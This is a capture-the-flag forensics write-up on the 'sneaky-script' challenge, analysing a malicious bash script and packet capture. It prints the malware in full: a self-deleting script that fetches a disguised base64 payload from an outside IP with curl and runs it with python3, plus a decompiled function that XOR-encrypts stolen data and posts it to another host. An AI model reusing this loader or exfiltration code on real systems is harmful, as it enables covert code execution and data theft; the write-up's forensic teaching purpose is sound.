 ```yaml
---
layout: writeup
title: sneaky-script (forensics/rev)
date: 2021-11-07
---
```

# Problem
For this problem we're given a situation where a malicious program was detected on a victim's PC and provided a zip file containing a pcap (`evidence.pcap`) and a bash script (`mal.sh`).  Our goal is to determine what the malware did and recover the exfiltrated flag.

## Investigation
Opening the malicious bash script we see the following:
```bash
#!/bin/bash

rm -f "${BASH_SOURCE[0]}"

which python3 >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
    exit
fi

mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')

curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg
python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

The interesting parts of this shell script are in the final two lines where we see it use curl to retrieve an image called `banner.png` which it decodes using base64 and then saves at `/tmpt/.cacheimg` and then ......executes using python?  Strange, let's investigate further.

Opening the pcap in wireshark we can extract a couple files: the `banner.png` and a conspicuous `upload` file that's 18kb large.

![image of export objects window in wireshark displaying several files](/assets/writeup_imgs/sneakyscript0.png)

Downloading the banner.png and decoding it ourselves, we can use the file utility we can confirm our earlier suspicions--this isn't a png image, it's python bytecode! 

Using [uncompyle6](https://github.com/rocky/python-uncompyle6/) we can translate the bytecode back into some valid python code.  Within the decompiled code we can find a `send()` function which we can see below:

```python
def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()
```

It's XORing the data with the key `b'8675309'` and then uploading it as a base64 encoded file named `upload`!

# Solution
After decompiling the malicious python code, we can write a trivial function to decode & decrypt the stolen data.

```python
# Unencrypt stolen data from the packet-capture
from base64 import b64decode

with open("exfils/upload") as enc_f:
  content = b64decode(enc_f.read())

k = b'8675309'  
unc =  bytes([content[i] ^ k[(i % len(k))] for i in range(len(content))])
print(unc.decode())
# At this point just use redirect stdout  to a file, then cat & grep to find flag
```

## Conclusion & Lessons Learned:
Well for one, uncompyle6 is a super helpful tool and packet captures once again prove incredibly helpful!

At a higher-level, it's interesting to see a malicious program written in python, especially considering we often focus on C-built x86 binaries when doing CTF (specifically in many `pwn` challenges).  It's important we note that malware can come in many forms--even in a high-level 'modern' language like Python!



